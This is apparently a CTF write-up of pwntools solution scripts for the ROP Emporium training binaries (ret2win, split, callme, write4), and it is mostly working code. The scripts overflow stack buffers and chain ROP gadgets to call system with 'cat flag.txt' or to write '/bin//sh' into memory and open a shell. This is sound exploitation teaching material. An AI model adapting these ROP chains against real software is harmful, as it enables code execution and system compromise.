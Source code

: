 ## ROP Emporium solutions
https://ropemporium.com/

### ret2win

Change the function return address.

32-bit

```python
from pwn import *

elf = ELF('./ret2win32')
io = gdb.debug('./ret2win32', 'b main')
io.sendline(cyclic(44) + p32(elf.sym['ret2win']))
io.interactive()
```

64-bit

```python
from pwn import *

elf = ELF('./ret2win')
io = process('./ret2win')
io = gdb.debug('./ret2win', 'b*pwnme+109')
io.sendline(cyclic(40) + p64(0x40053e) + p64(elf.sym['ret2win']))
io.interactive()
```

### split

Call `system()` with `cat flag.txt`

32-bit

```python
from pwn import *

# rabin2 -z split32
# 000 0x00001030 0x0804a030  17  18 (.data) ascii /bin/cat flag.txt

# gdb
# usefulFunction address: 0x08048657

payload = b'A'*44 + p32(0x8048657) + p32(0x804a030)
io = process('./split32')
print(io.recvuntil('> '))
io.sendline(payload)
print(io.recv())
```

64-bit

```python
from pwn import *

# ROPgadget
# 0x0000000000400883 : pop rdi ; ret

# rabin2 -z
# 000 0x00001060 0x00601060  17  18 (.data) ascii /bin/cat flag.txt

# address of usefulFunction: 0x400807
payload = b'A'*40 + p64(0x400883) + p64(0x601060) + p64(0x400810)

r = process('./split')
r.recvuntil('> ')
r.sendline(payload)
print(r.recv())
```

### callme

Call three different functions with three different arguments.

32-bit

```python
from pwn import *

# ROPgadget
# 0x08048576 : add esp, 8 ; pop ebx ; ret
# 0x080488a9 : pop esi ; pop edi ; pop ebp ; ret

payload = b'A'*44

# 0x080485c0  callme_one@plt
# 0x08048620  callme_two@plt
# 0x080485b0  callme_three@plt

payload += p32(0x080485c0) + p32(0x08048576) + p32(0x01) + p32(0x02) + p32(0x03)
payload += p32(0x08048620) + p32(0x08048576) + p32(0x01) + p32(0x02) + p32(0x03)
payload += p32(0x080485b0) + p32(0x08048576) + p32(0x01) + p32(0x02) + p32(0x03)

# io = gdb.debug('./callme32','b main')
io = process('./callme32')

print(io.recvuntil('> '))
io.sendline(payload)
print(io.recvall())
```

64-bit

```python
from pwn import *
payload = b'A'*40

# ROPgadget
# 0x401ab0 : pop rdi ; pop rsi ; pop rdx ; ret
# 0x4017d9 : ret

# rabin2 -s
# callme_one: 0x401850
# callme_two: 0x401870
# callme_three: 0x401810

payload += p64(0x4017d9)
payload += p64(0x401ab0) + p64(1) + p64(2) + p64(3) + p64(0x401850)
payload += p64(0x401ab0) + p64(1) + p64(2) + p64(3) + p64(0x401870)
payload += p64(0x401ab0) + p64(1) + p64(2) + p64(3) + p64(0x401810)

# io = gdb.debug('./callme', 'b *0x401a56')
io = process('./callme')

io.recv()
io.sendline(payload)
io.interactive()
```

### write4

Write string to memory and pass it to `system()`

32-bit

```python
from pwn import *
io = process('./write432')

p = b'A'*44

####

p += p32(0x80486da) # pop edi ; pop ebp ; ret
p += p32(0x804a02c) # @ .data + 4
p += b'//sh'
p += p32(0x8048670) # mov dword ptr [edi], ebp ; ret

####

p += p32(0x80486da) # pop edi ; pop ebp ; ret
p += p32(0x804a028) # @ .data
p += b'/bin'
p += p32(0x8048670) # mov dword ptr [edi], ebp ; ret

####

p += p32(0x804865a) # system
p += p32(0x804a028) # @ .data

####

print(io.recv())
io.sendline(p)
io.interactive()
```

64-bit

```python
from pwn import *
io = process('./write4')

p = b'A'*40
p += p64(0x400890) # pop r14 ; pop r15 ; ret
p += p64(0x601050) # @ .data
p += b'/bin//sh'
p += p64(0x400820) # mov qword ptr [r14], r15 ; ret
p += p64(0x400893) # pop rdi ; ret
p += p64(0x601050) # @ .data
p += p64(0x400810) #4005e0) # @ system@plt

print(io.recv())
io.sendline(p)
io.interactive()
```

### badchars

Some characters are not allowed (xor to store data, xor to get it back while in memory).

`TBD`
